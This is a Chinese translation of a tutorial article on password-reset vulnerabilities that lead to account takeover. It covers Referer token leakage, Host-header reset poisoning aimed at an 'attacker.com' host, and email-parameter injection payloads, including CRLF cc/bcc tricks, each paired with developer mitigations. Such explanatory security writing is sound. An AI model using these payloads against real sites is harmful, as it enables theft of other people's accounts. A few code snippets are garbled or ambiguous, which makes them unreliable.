

# 使用易受攻击的密码重置功能接管用户帐户

> 原文：<https://levelup.gitconnected.com/user-account-takeover-using-vulnerable-password-reset-features-e1fe1dbd8a14>

*在本文中，我们将探讨密码重置功能中的漏洞，这些漏洞会让攻击者接管用户帐户。其中一些漏洞是设计造成的，这意味着该功能的实现不正确，而其他漏洞是由恶意操作造成的，如单击攻击者的链接。对于开发者和用户来说，了解这些漏洞的来源非常重要，因为密码重置功能在登录表单中被大量使用。*


密码重置功能可以说是任何网站都可以拥有的最重要的功能之一。作为用户，你很难记住所有不同账户的密码。如今，普通互联网用户拥有一个电子邮件、一个脸书、Instagram、LinkedIn 和 Twitter 账户，最有可能的是几个需要他进行身份验证的实用程序，如电子银行应用程序或移动运营商应用程序。你可能会告诉我，用户不应该记住所有的密码，他可以将密码保存在他的设备上。这有两个很大的不便:

*   保存密码将帮助您更快地忘记密码，这将迫使您经常使用恢复功能
*   更换设备还会删除你所有的密码，除非它们都被备份到云中，对此我深表怀疑

我知道你在想什么:你想用你的出生日期或你配偶的中间名作为你的密码。没有必要告诉你这可能不是最好的主意。

总而言之，密码恢复功能不会很快普及。所以更好的理解如何正确使用，避免用户账号被接管。

**密码重置令牌通过推荐人泄漏**

`Referrer`报头是一个 HTTP 报头，它有时出现在 HTTP 请求中，用于与发出请求的主机服务器进行通信。例如，在下面的请求中，主机`example.com`是通过用户的 LinkedIn 页面访问的，GET 请求将包含一个`Referrer`头，告诉主机该请求来自 Linkedin。

```
GET /hello HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: www.example.com
Referrer: www.linkedin.com/feed
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
```

现在假设一个用户正在使用某个应用程序，他进入了登录页面。在同一页面的底部导航栏中，有指向外部网站(如社交媒体帐户)的链接。我在网上经常遇到这样的网页。现在，当用户点击忘记密码按钮时，他将收到一封电子邮件，该邮件会将他重定向到 web 应用程序上的一个页面，在那里他可以更改密码。如果您查看重置页面上的 URL，它包含某种代码或令牌。这个令牌是服务器识别用户并相应更改密码的唯一方法。让我们想象一下，用户点击导航栏底部的一个社交媒体标志，而不是更改密码和提交表单。在易受攻击的应用程序中，URL 中存在的令牌将通过`Referrer`头泄露给第三方社交媒体平台。这将允许主机更改您的密码。

```
GET /somefacebookpage HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: www.facebook.com
**Referrer: www.vulnerable-app.com/reset-password?token=A7D8f512hgxde** Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: Keep-Alive
```

为了缓解这一漏洞，开发人员应该创建安全的重置页面，并测试其网站的令牌泄漏。

以下几个因素减轻了泄漏的严重性:

*   一旦用户完成密码重置表单，大多数密码重置令牌就会失效，因此使用泄露的密码重置链接的窗口可能会非常小。
*   除非用户生成的内容被不正确地呈现在密码重置页面上，否则攻击者无法控制令牌被泄露到哪些站点。
*   如果令牌被泄露，它很可能被泄露到您认为是可信任的合作伙伴的站点。

**通过密码重置中毒接管账户**

一些应用程序错误地构建了要发送到用户电子邮件的重置密码 URL。这可能会对安全性造成毁灭性的影响，因为这个漏洞非常容易被利用。我会告诉你怎么做。

假设我是一名攻击者，我想在一个第三方应用程序上泄露您的帐户，该应用程序包含一个糟糕的重置密码功能。

我将在重置密码文本框中键入您的电子邮件，然后按重置密码按钮。我将通过 Burp 代理请求，并修改`Host`头，如下所示:

```
Host: attacker.com*OR*Host: target.com 
X-Forwarded-Host: attacker.com*OR*Host: target.com
Host: attacker.com
```

易受攻击的应用程序将构建一个重置链接，并将其设置为受害者的电子邮件，以重置其密码。如果电子邮件中的重置链接是基于请求的`Host`头构建的，它将如下所示:

```
https://evilhost.com/reset-password.php?token=12345678-1234-1234-1234-12345678901
```

当用户点击它时，他将令牌发送给攻击者主机，攻击者主机现在可以修改用户的密码并接管他的帐户。



**密码重置中毒——归功于 CyPH3R**

开发人员可以通过在生成密码重置链接时使用`$_SERVER['SERVER_NAME']`而不是`$_SERVER['HTTP_HOST']`来缓解此漏洞。

```
$resetPasswordURL **=** "https://{$_SERVER['HTTP_HOST']}/reset-password.php?token=12345678-1234-1234-1234-12345678901";
```

**通过操作邮件参数重置密码**

一些密码重置功能向 web 应用服务器发送`POST`请求，其中包含想要重置其帐户的用户的电子邮件参数。当服务器没有正确解析和清除电子邮件参数时，就会出现此漏洞。攻击者可以利用这一点，篡改电子邮件参数，并将重置链接发送到他的个人电子邮件，而不是受害者的地址。

在忘记密码页面上，攻击者插入受害者的电子邮件并点击重置按钮。他使用打嗝来拦截请求。通常看起来是这样的:

```
POST /resetPassword 
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: [www.vulnerable-website.com](http://www.vulnerable-website.com)
Content-Type: application/x-www-form-urlencoded
Content-Length: some-length
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: KeepAliveemail**=**victim@email.com
```

攻击者可以通过使用几种方法添加他的电子邮件来更改`email`参数:

```
email=victim@email.com**&**email=attacker@email.com
email=victim@email.com**%20**email=attacker@email.com
email=victim@email.com**|**email=attacker@email.com
email="victim@mail.tld"**,**email="attacker@mail.tld"
```

或者将自己放入重置邮件的**抄送**或**密件抄送**:

```
email="victim@mail.tld%0a%0d**cc:**attacker@mail.tld"
email="victim@mail.tld%0a%0d**bcc:**attacker@mail.tld"
```

为了减轻这种攻击，开发人员需要在使用 email 参数之前正确解析并清除它的值。

**通过 API 参数更改任何用户的电子邮件和密码实现完全账户接管**

在某些情况下，当用户输入新密码并点击“更改密码”按钮时，会向服务器发出一个非常奇怪的请求:

```
POST /changePassword 
User-Agent: Mozilla/4.0 (compatible; MSIE5.01; Windows NT)
Host: [www.vulnerable-website.com](http://www.vulnerable-website.com)
Content-Type: application/x-www-form-urlencoded
Content-Length: some-length
Accept-Language: en-us
Accept-Encoding: gzip, deflate
Connection: KeepAliveemail="victim@email.tld"&password="12345678"
```

如果你在修改密码时看到这样的请求，希望它不是由编写你的电子银行应用程序的同一个开发人员编写的。

攻击者可以使用 Burp 拦截此请求，并通过更改电子邮件和密码参数的值来更改任何电子邮件帐户的密码。切勿使用此实现来更改密码。

还有其他方法，如尝试猜测重置令牌是如何构造的，并尝试为受害者电子邮件地址生成一个，使用过期令牌、强力重置令牌或使用他们自己的令牌来重置受害者的密码。一个好的开发者应该知道所有这些方法，通过遵循最佳实践在他的网站上构建可靠的功能。

*如果你对网络安全感兴趣，可以看看我下面的文章:*

*   [使用 Word 文档或*。docx "文件来获得对私有服务器资源的未授权访问*](/using-word-documents-or-docx-files-to-gain-unauthorised-access-to-server-private-resources-2477b3eafb7b)
*   [*基于 Zip 的漏洞利用:Zip Slip 和 Zip Symlink 上传*](/zip-based-exploits-zip-slip-and-zip-symlink-upload-21afd1da464f)
*   [*利用 Web 服务器上的 CORS 错误配置漏洞*](https://medium.com/swlh/exploiting-cors-misconfiguration-vulnerabilities-2a16b5b979?sk=e3f3aedc21d0ba0da1885758ad4322ab)